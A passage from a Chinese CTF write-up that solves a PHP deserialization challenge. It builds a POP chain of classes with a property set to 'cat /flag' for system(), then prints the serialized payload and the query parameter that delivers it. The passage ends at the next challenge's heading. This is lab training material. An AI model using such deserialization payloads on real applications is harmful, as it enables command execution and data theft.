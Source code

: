 ```php
<?php
Class Rd{
    public $ending;
    public $cl;
    public $poc;
}
class Poc{
    public $playload;
    public $fun;
}
class Er{
    public $symbol;
    public $Flag='cat /flag';
}
class Ha{
    public $start;
    public $start1;
    public $start2="11111";
}

$a=new Ha();
$a->start1=new Rd();
$a->start=['POC'=>'1111'];
$a->start1->cl=new Er();
echo serialize($a);
?>
```

<font style="color:#000000;">先按照题目的内容写几个类和对象（其中 Flag 要赋值为 'cat /flag'，之后要用到 system 函数输出）。从 Ha 入手，由于从 c1 在 Rd 内，所以先给 a 中 start1 用类 Rd 赋值，并把其中键 POC 对应的值赋值为 "1111“,之后用 Er 类给 c1 赋值，之后输出 a。这样就满足条件了。</font>

<font style="color:#000000;">输出结果为</font>

```plain
O:2:"Ha":3:{s:5:"start";a:1:{s:3:"POC";s:4:"1111";}s:6:"start1";O:2:"Rd":3:{s:6:"ending";N;s:2:"cl";O:2:"Er":2:{s:6:"symbol";N;s:4:"Flag";s:9:"cat /flag";}s:3:"poc";N;}s:6:"start2";s:5:"11111";}
```

<font style="color:#000000;">传入参数</font>

```plain
?Ha_rde_r=O:2:"Ha":3:{s:5:"start";a:1:{s:3:"POC";s:4:"1111";}s:6:"start1";O:2:"Rd":3:{s:6:"ending";N;s:2:"cl";O:2:"Er":2:{s:6:"symbol";N;s:4:"Flag";s:9:"cat /flag";}s:3:"poc";N;}s:6:"start2";s:5:"11111";}
```

<font style="color:#000000;">拿到 flag</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737513460231-deb60d72-66b2-4c9c-b4ca-4d748f21d207.png)

## <font style="color:#000000;">（三）</font><font style="color:#000000;">[安洵杯 2019]easy_serialize_php</font>
<font style="color:#000000;">进入靶场发现这个连接</font>
